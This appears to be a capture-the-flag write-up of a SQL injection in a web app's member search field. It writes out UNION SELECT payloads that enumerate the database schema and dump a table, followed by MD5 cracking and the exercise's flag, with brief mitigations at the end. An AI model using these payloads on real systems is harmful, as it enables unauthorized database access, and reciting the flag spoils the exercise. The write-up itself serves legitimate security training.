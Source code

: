 # SQL Injection In Member Search Field 


## Issue

The input field at "http://{IP}:{PORT}/index.php?page=member" does not sanitize input data which is passed through to a database directly enquiry \
resulting in injection of query into SQL database.


## Attack Vector

1 - Navigating to "http://{IP}:{PORT}/index.php?page=member" and entering arbitrary payload eg `' or 1=1` into input field and selecting submit 
reveals SQL syntax error message confirming that data is being passed into query unsantized

2 - Identify Schemas in database by inputing `4 UNION SELECT null,schema_name from INFORMATION_SCHEMA.SCHEMATA-- -` - we see interesting schema `Member_images` \
Note - as there are only 2 columns being returned/rendered by the server during a normal query then union select needs to only reference 2 columns during query!

3 - Identify the tables in `Member_images` schema with `4 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.COLUMNS -- -` which reveals table name `list_images`

4 - Identify all columns in List_images table in Member_images with  `4 UNION SELECT COLUMN_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS -- -`

5 - Column names `id, url, title, comment` are revealed

6 - Query each column in List_images table with `4 UNION SELECT {column_name},{column_name} FROM Member_images.list_images -- -`

7 - After querying all columns we see one particular interest entry in the List_images table as follows:
| **Column name** | id  | url                                   | title   | comment                                                                                         |
|-----------------|-----|---------------------------------------|---------|-------------------------------------------------------------------------------------------------|
| **Data**        | 5   | borntosec.ddns.net/images.png        | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |

8 - Open bash and navigate to script directory. Launch script with `python3 hashcracker.py` to attempt to crack md5 hash against the passwordlist.txt wordlist

9 - The decrypted hash is found to be `albatroz`

10 - We follow the intructions as per table contents and lowercase `albatroz` then apply a SHA256 algorith to reveal the flag.

11 - Flag is `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

*NOTE - You can use existing MD5 decryption tools such as MD5decrypt.net to attempt to crack the hash.*


## Mitigation

1 - Sanitize and validate input

2 - Use ORM framework to make queries to database

3 - Do not expose raw SQL error messages




